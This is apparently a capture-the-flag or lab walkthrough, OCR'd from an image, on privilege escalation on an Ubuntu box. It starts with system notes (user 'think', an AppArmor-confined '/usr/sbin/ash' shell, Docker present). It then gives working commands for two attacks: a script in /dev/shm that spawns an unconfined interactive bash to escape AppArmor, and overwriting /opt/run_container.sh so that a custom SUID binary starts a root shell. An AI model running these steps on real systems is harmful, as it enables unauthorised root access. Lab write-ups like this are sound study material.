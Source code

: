 ### 💻 System Information
- **OS:** Ubuntu 20.04.6 LTS (Focal Fossa)
- **Kernel:** Linux 5.4.0-169-generic
- **Current User:** `think` (uid=1000, gid=1000)
- **Shell:** `/usr/sbin/ash` ⚠️ (unusual shell - note this!)

### 🚨 Key Observations
- **🐳 Docker environment present** (docker0 interface, dockerd process)
- **❌ Strange file system behavior:** Can't write to `/tmp`, can't list `/opt`
- **🛡️ AppArmor is enabled** and affecting shell behavior

## 🚀 Privilege Escalation

### 🥇 Method 1: AppArmor Bypass (Recommended)

#### 🧠 Understanding the Issue
- The `think` user's shell (`/usr/sbin/ash`) is constrained by AppArmor
- AppArmor profile in `/etc/apparmor.d/usr.sbin.ash` shows restrictions
- Profile is in "complain" mode but still causes issues
- **💡 Key insight:** AppArmor only restricts the specific binary, not custom scripts

#### 🎯 Exploitation Steps
```bash
# Create bypass script in /dev/shm (not blocked by AppArmor)
echo -e '#! /bin/bash\n/bin/bash -ip' > /dev/shm/pwn.sh
chmod 755 /dev/shm/pwn.sh

# Execute the script to get unrestricted bash shell
/dev/shm/pwn.sh
```

**✅ Why this works:** `/usr/sbin/ash` has an AppArmor profile, but `/dev/shm/pwn.sh` doesn't!

### 🥈 Method 2: SUID Binary Abuse

#### 🔍 Discovery
```bash
# Find SUID binaries
find / -type f -user root -perm /4000 2>/dev/null
```

#### 🎯 Key Finding
- Custom SUID binary: `/opt/run_container`
- Analysis with `strings /opt/run_container` shows it calls `/bin/bash` then `/opt/run_container.sh`

#### 💥 Exploitation
```bash
# Overwrite the script that the SUID binary calls
echo -e '#! /bin/bash\n/bin/bash -ip' > /opt/run_container.sh

# Execute the SUID binary
/opt/run_container
```
